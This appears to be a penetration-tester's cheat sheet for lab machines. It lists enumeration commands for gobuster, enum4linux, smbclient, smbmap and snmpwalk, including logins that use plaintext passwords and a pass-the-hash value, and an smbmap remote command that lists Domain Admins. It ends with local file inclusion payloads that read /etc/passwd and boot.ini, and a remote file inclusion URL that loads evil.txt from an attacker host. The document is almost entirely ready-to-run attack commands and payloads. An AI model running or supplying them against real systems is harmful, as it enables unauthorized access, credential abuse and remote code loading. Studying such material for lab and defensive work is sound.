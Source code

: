 ## gobuster
* bruteforcing web directory files
```
$ gobuster -u ip -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```
## enum4linux
* Windows and Samba systems
```
$ enum4linux -U -o ip
```
## smbclient
* discover directory and os, smb version
```
$ smbclient -L \\DNSname -I ip -N
$ smbclient -L "//10.10.10.3/" –N 
```
* log in smb server
```
$ smbclient //DNSname/wwwroot -I ip -N
```
## smbmap
*SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands.
```
smbmap -H 10.10.10.3 | tee recon/smbmap_10.10.10.3.txt
```
```
$ python smbmap.py -u jsmith -p password1 -d workgroup -H 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H 172.16.0.20
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -H 10.1.3.30 -x 'net group "Domain Admins" /domain'
```
## ftp
* try to login as anonymous
```
user: anonymous
pass: anonymous
```
## snmpwalk
```
$ snmpwalk ip -c public -v 2c > result.txt
```
### Web application
## LFI
* ../../../../../etc/passwd%00
* ..%01/..%01/..%01/..%01/..%01/etc/passwd
* ../../../../../etc/passwd%23
%23 equal to MySQL query '?'
* ../../../../../../../../../etc/passwd/././././././.[…]/./././././.
* ../../../../../../../../../boot.ini/………[…]…………
* ../ -> %2e%2e%2f
## RFI
* http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt